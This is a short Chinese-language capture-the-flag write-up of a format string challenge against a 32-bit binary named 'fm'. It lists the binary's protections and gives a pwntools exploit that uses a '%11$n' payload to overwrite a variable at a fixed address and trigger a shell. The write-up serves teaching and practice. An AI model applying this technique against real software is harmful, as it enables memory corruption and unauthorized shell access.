

# 知识点

格式化字符串


# 题目分析

1. 检查保护情况。32位程序，开启NX保护，开启Canary保护。

   ```bash
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    Canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

2. 拖入IDA分析，发现存在格式化字符串漏洞。若x = 4，则执行shell。

   

3. 思路很简单，直接格式化字符串修改变量x的值为4即可。


# EXP

```python
from pwn import *

io = process('./fm')

x_bss = 0x0804A02C
offset = 11

payload = p32(x_bss) + '%11$n'
io.send(payload)

io.interactive()
```

